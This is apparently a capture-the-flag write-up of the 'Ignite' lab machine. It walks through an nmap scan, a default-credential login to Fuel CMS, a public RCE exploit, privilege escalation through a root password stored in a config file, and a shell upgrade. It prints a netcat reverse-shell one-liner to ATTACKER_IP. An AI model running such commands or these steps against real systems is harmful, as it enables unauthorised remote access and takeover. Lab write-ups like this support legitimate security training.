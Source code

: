 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

### [ User.txt ]

Firstly, let's run a basic **Nmap** scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving **Apache httpd 2.4.18**. An interesting thing to note is that there is a disallowed entry **'/fuel/'** in the **robots.txt** file.

Navigating to the HTTP website, we see a **Fuel CMS** webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that was left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is **admin:admin**! Furthermore, the admin page for Fuel can be found in **/fuel**. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on "**Click here for your site documentation**", we can see that the site is running **FUEL CMS 1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`. The command used is:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

![screenshot14](../assets/images/ignite/screenshot14.png)

Seems like we just have to change the `url` to the victim's IP address. Also, note that the code runs the connection through Burp Proxy, which we will remove as we are not using any proxy. Finally, to allow for compatibility with Python3, I had to make the following changes:

`raw_input()` to `input()`

`quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

`print r.text[0:dup]` to `print(r.text[0:dup])`

The modified script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit with a simple `whoami` command, we can see that it works:

![screenshot16](../assets/images/ignite/screenshot16.png)

Now, we'll try setting up a **reverse shell**. Using **pentestmonkey's** [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

**user.txt** can be found in www-data's **home** directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/** that had the **root** password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is: **mememe**

With the root password, we can then log in as root and obtain **root.txt** located in **/root**.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error **"must be run from a terminal"** kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account.

![screenshot23](../assets/images/ignite/screenshot23.png)
